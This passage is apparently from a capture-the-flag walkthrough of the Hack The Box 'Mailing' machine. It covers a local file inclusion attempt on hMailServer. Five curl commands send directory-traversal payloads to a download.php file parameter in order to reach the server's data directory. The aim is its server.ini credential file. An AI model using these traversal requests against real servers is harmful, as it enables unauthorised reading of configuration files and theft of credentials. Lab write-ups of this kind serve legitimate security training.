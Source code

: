 ## 3. LFI & Credential Extraction

Since this is not a Domain Controller and the necessary ports are not open, we cannot confirm if the users we discovered earlier are valid.  

Looking back at the scan, we see several ports running the **hMailServer** service.  
Given its recurrence, this service is likely important, so we should try to locate its configuration files.  
We can approach this in different ways:  
- Using **BurpSuite**  
- Manually with **curl**  

In this case, I chose the manual approach.  

Searching in Google we find where **hMailServer** stores its files by default:  

![](screenshots/hmailserver_what_is.png)

Let’s try some requests to see what we get:  

```bash
curl -s -X GET 'http://mailing.htb/download.php?file=C:\\Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=../../../../../../Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program+Files\hMailServer\Data'
curl -s -X GET 'http://mailing.htb/download.php?file=..\..\..\..\..\..\..\Program%20Files\hMailServer\Data'
```

![](screenshots/curl.png)

After several attempts we did not retrieve anything useful.  
However, searching again we find another reference indicating a different path that aims to `server.ini`:
